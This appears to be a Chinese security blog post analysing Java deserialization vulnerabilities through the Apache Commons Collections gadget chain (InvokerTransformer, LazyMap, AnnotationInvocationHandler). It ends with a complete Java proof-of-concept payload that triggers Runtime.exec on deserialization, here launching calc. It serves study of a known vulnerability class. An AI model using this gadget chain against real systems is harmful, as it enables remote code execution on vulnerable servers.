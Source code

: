 ```yaml
---
layout: post
title: Java反序列化漏洞整理(一)
tags: java Web安全
typora-copy-images-to: ../assets/img
typora-root-url: ..
---
```


# Java反序列化漏洞整理(一)

## 发现

[Deserialization_Cheat_Sheet](https://github.com/OWASP/CheatSheetSeries/blob/master/cheatsheets/Deserialization_Cheat_Sheet.md)

- 白盒：可能出现的API包括:`XStream`,`readObject`, `readObjectNodData`, `readResolve` or `readExternal`等等
- 黑盒：HEX中出现`AC ED 00 05`，Content-type：`application/x-java-serialized-object`

## 利用

想要执行任意命令：

```java
Runtime.getRuntime().exec("calc");
```

使用反射获取的话就需要分成两部分，一部分是调用getRuntime(),一部分是调用exec();

```java
  Class class1=Runtime.class;
        Method getRuntime=class1.getMethod("getRuntime");
        Runtime runtime=(Runtime) getRuntime.invoke(null);
        //获得runtime实例
        Class class2=runtime.getClass();
        Method exec=class2.getMethod("exec", String.class);
        exec.invoke(runtime,"calc");
```

假设我们已经获取到了一个反序列化漏洞

我们可以控制这个类的实例，但是函数调用我们无法控制，和PHP反序列类似的，我们应该寻找在反序列化后会自动执行的函数。在Java的动态代理中，使用newProxy的代理后，在调用代理对象的方法时，会自动执行实现的InvocationHandler接口的invoke方法。

> 原则：**实例属性是我们可控的，函数调用是我们不可控的**。也就是所谓的POP(Property Oriented Programming)

#### 一个POP Gadget的分析

`org.apache.commons.collections.functors.InvokerTransformer#transform`

这个类继承了Transformer接口，并实现了transform方法

![1560782782828](/assets/img/1560782782828.png)

可以看到InvokerTransformer中的transform方法可以对一个输入类input通过反射调用其的一个方法，其中的MethodName以及ParamTypes还有Args都是InvokerTransformer的成员变量，所以是我们可以控制的。

但是这一个方法并不足以让我们执行命令

我们在包里寻找同样实现了Transformer接口的类

`org.apache.commons.collections.functors.ChainedTransformer`

![1560787877155](/assets/img/1560787877155.png)

其中的transform方法，可以看到这里就是一个链式调用transform的方法，可以满足我们RCE的要求。而这里的iTransformers是成员变量，也是我们可以控制的。

但是可以注意到，我们还需要先获取得到Runtime类的class,才能调用getMethod其的静态方法getRuntime。我们在寻找实现了Transformer接口的类，

`org.apache.commons.collections.functors.ConstantTransformer`中的transform方法，是直接返回这个类中的成员变量iConstant。

由于ConstantTransformer的transform方法的返回值是一个Class类型，所以这里我们只能利用反射来调用反射，听起来有点绕，直接看调用链就清楚了

到这里的利用链

![1560843125368](/assets/img/1560843125368.png)

接着我们需要寻找可以调用transform的地方。

`org.apache.commons.collections.map.LazyMap#get`

![1560857576938](C:\Users\牛奶冻荔枝\AppData\Roaming\Typora\typora-user-images\1560857576938.png)

调用了factory.transform(key)，而这里的factory是LazyMap的成员变量，也是我们可控的。

![1560925894050](/assets/img/1560925894050.png)

我们接着寻找get方法的调用，这里调用是比较普遍的，我们希望存在一个类，其实现了InvocationHandler接口，Invoke方法调用了get方法,同时其的调用者是一个成员变量，使我们可以控制的。

`sun.reflect.annotation.AnnotationInvocationHandler#invoke`

![1560912962249](/assets/img/1560912962249.png)

而这里的memberValues是我们可控的

![1560925421605](/assets/img/1560925421605.png)

这样，我们为一个对象创建代理对象，这个代理对象的InvocationHandler，我们使用构造的`AnnotationInvocation(Override.class,lazyMap)`即可。

接着我们还要寻找一个对象是在反序列化时，会自动调用其的某一个方法。在反序列化时自动调用readObject，

所以我们直接去找readObject。

还是在`sun.reflect.annotation.AnnotationInvocationHandler#readObject`

![1560928730834](/assets/img/1560928730834.png)

![1560928913641](/assets/img/1560928913641.png)

我们发现在readObject的过程中调用了memberValues的entrySet方法。而前面说过，这里的memberValues是我们可控的map，所以这里就明了了，我们需要创建的代理对象就是这个map，然后传递到AnnotationInvocationHandler中，最后反序列化这个AnnotationInvocationHandler。

Dlive总结的利用链：

![1560930436872](/assets/img/1560930436872-1560933390300.png)

#### payload以及测试结果：

```java
//jdk1.7

public static void main(String[] args) throws ClassNotFoundException, NoSuchMethodException, IllegalAccessException, InvocationTargetException, InstantiationException {
        Transformer[] invokerTransformers = new Transformer[]{
                new ConstantTransformer(Runtime.class),
                new InvokerTransformer("getMethod", new Class[]{String.class,Class[].class},
                        new Object[]{"getRuntime",new Class[0]}),
                new InvokerTransformer("invoke", new Class[]{Object.class,Object[].class},
                        new Object[]{null,new Object[0]}),
                new InvokerTransformer("exec",new Class[]{String.class},new String[]{"calc"})
        };
        ChainedTransformer chainedTransformer = new ChainedTransformer(invokerTransformers);
        //chainedTransformer.transform(1);
        Map lazyMap=LazyMap.decorate(new HashMap(),chainedTransformer);
        //lazyMap.get(1);
        String annoInvocationReferce="sun.reflect.annotation.AnnotationInvocationHandler";
        //AnnotationInvocationHandler在sun包中我们无法直接调用,使用反射调用
        Constructor<?> constructor= Class.forName(annoInvocationReferce).getDeclaredConstructors()[0];
        constructor.setAccessible(true);
        InvocationHandler invocationHandler=(InvocationHandler) constructor.newInstance(Override.class,lazyMap);

        HashMap hashMap=new HashMap();
        //创建一个代理Map
        Map proxyMap= (Map)Proxy.newProxyInstance(
                hashMap.getClass().getClassLoader(),
                hashMap.getClass().getInterfaces(),
                invocationHandler
        );
        //需要反序列化的AnnotationInvocationHandler
        InvocationHandler invocationHandler1=(InvocationHandler)constructor.newInstance(Override.class,proxyMap);
        //测试
        try {
            ByteArrayOutputStream byteArrayOutputStream=new ByteArrayOutputStream();
            ObjectOutputStream outputStream=new ObjectOutputStream(byteArrayOutputStream);
            outputStream.writeObject(invocationHandler1);
            ObjectInputStream inputStream=new ObjectInputStream(new ByteArrayInputStream(byteArrayOutputStream.toByteArray()));
            inputStream.readObject();
        } catch (IOException e) {
            e.printStackTrace();
        }
    }
```

![1560930308651](/assets/img/1560930308651.png)

参考：

1. http://d1iv3.me/2018/06/05/CVE-2015-4852-Weblogic-%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96RCE%E5%88%86%E6%9E%90/

## 总结

Gadget的分析还是挺好玩的，涉及到比较多关于java反射，代理以及反序列化的知识。利用链也非常巧妙。

关于一些现成的Gadget以及payload的生成可以使用ysoserial这个工具：https://github.com/frohoff/ysoserial  

留个坑，分析一下Weblogic的一些相关反序列化漏洞。







